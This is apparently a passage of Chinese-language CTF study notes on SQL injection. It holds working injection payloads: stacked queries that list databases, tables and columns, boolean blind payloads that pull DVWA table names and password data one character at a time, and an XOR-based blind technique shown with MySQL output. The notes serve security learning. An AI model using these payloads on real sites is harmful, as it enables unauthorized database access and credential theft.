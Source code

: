 注意这里如果返回了`Error Occured When Fetch Result`,说明当前比较的字母已经大于flag中对应位置的字母了

那么它前一个字母是和flag中对应位置相等的,所以12行是`flag = flag + chr(c-1)`

另外, 上面输出的全都是大写字母的原因是:  `mysql`中比较是不区分大小写的,所以尽管`N`的 ascii码小于`a`,但是在上面判定时还是会判断为`N`>`a`  但这不影响我们的结果,只要把上面的flag转为小写就可以了.

```python
flag = "FLAG{0F444C84-7580-4A33-B2E8-19FCE4439E7D}"
print(flag.lower())
```





<br>

### **show**

```
1';show databases;# //可以用来爆库名
1';show tables;# //可以用来爆表名
1'; show columns from 表名;# //爆某个表中的所有列名
```

<br>

<br>

## 盲注

### 一般的盲注(猜):

假设页面不会回显具体的查询结果,只会告知查询的内容是否存在,那么可以尝试下列语句,如果查询存在,则说明语句为真,`and`后面的猜测是正确的

```
猜库名长度
1' and length(database())=4 #
逐个字母猜库名
1' and substr(database(),1,1)='d
逐个字母猜所有表名
1' and substr((select group_concat(table_name) from information_schema.tables where table_schema='dvwa'),1,1) = 'g
逐个字母猜列名：
1' and substr((select group_concat(column_name) from information_schema.columns where table_schema = 'dvwa' and table_name = 'users'), 1, 1) = 'u
逐个字母猜特定列里的数据：
id=1' and substr((select group_concat(password) from users), 1, 1) = '5
```

<br>

### 利用异或性质进行盲注:

**`A^B`,AB如果相同则返回0,不同则返回1**

```
mysql> use test;
Database changed
mysql> select * from flag;
+------+------------+
| id   | flag       |
+------+------------+
|    1 | flag{test} |
+------+------------+
1 row in set (0.00 sec)

mysql> select * from flag where id=1^(length(database())=4); 这里返回空,是因为1^(length(database())=4)的结果返回了0,也就相当于length(database())=4为True,由此就猜对了数据库的长度. 这里和一般的盲注理解类似
Empty set (0.00 sec)
```